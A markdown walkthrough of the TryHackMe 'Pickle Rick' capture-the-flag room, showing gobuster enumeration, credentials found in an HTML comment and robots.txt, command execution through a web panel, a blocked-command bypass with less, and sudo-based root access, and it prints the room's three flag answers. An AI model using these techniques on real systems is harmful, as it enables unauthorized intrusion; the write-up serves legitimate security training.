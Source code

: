 # Pickle Rick

## [Pickle Rick on TryHackMe](https://tryhackme.com/room/picklerick)

## Overview

* **Difficulty:** Easy
* **Category:** CTF / Privilege Escalation
* **Skills Practiced:**

	* Web enumeration (HTML comments, robots.txt, gobuster)
	* Credential discovery & login
	* Command execution via restricted web panel
	* File system traversal & privilege escalation

## Tools & Techniques

* **Gobuster** → directory brute force
* **robots.txt** → sensitive info disclosure
* **Inspect Source** → discover hidden comments
* **Command Panel** → web shell for command execution
* **Sudo Privilege Escalation** → root access

## Walkthrough (Step-by-Step)

### 1. Inspect Page Source

**Action:** Inspect `index.html` source.
**Output:**

```html
<!--
	Note to self, remember username!
	Username: R1ckRul3s
-->
```

Found **username**: `R1ckRul3s`

### 2. Gobuster Directory Enumeration

```bash
gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

**Output (important entries):**

```
/assets               (Status: 301) [--> http://<ip>/assets/]
/denied.php           (Status: 302) [--> /login.php]
/index.html           (Status: 200)
/login.php            (Status: 200)
/portal.php           (Status: 302) [--> /login.php]
/robots.txt           (Status: 200)
```

Found potential login page (`/login.php`) and `/robots.txt`.

### 3. Check robots.txt

**URL:** `http://<ip>/robots.txt`
**Output:**

```
Wubbalubbadubdub
```

Found **password**: `Wubbalubbadubdub`

### 4. Login Panel

**Page:** `http://<ip>/login.php`
**Credentials:**

* Username: `R1ckRul3s`
* Password: `Wubbalubbadubdub`

Successful login → Access to **Command Panel**.

### 5. List Files in Web Directory

**Command:**

```
ls
```

**Output:**

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Found interesting files: `Sup3rS3cretPickl3Ingred.txt` and `clue.txt`.

### 6. Read First Ingredient

**Command:**

```
cat Sup3rS3cretPickl3Ingred.txt
```

**Output:**

```
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```

Try with `less`:

```
less Sup3rS3cretPickl3Ingred.txt
```

**Output:**

```
mr. meeseek hair
```

**First Ingredient:** `mr. meeseek hair`

### 7. Check Clue

**Command:**

```
less clue.txt
```

**Output:**

```
Look around the file system for the other ingredient.
```

Hint: Explore filesystem for more ingredients.

### 8. Explore /home Directory

**Command:**

```
ls /home
```

**Output:**

```
rick
ubuntu
```

**Command:**

```
ls -l /home/rick
```

**Output:**

```
-rwxrwxrwx 1 root root 13 Feb 10  2019 second ingredients
```

**Command:**

```
less /home/rick/second\ ingredients
```

**Output:**

```
1 jerry tear
```

**Second Ingredient:** `1 jerry tear`

### 9. Check Sudo Privileges

**Command:**

```
sudo -l
```

**Output:**

```
User www-data may run the following commands on ip-10-201-89-76:
    (ALL) NOPASSWD: ALL
```

`www-data` can run **any command as root** without a password.

### 10. Access Root Directory

**Command:**

```
sudo ls -l /root
```

**Output:**

```
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
```

**Command:**

```
sudo less /root/3rd.txt
```

**Output:**

```
3rd ingredients: fleeb juice
```

**Third Ingredient:** `fleeb juice`
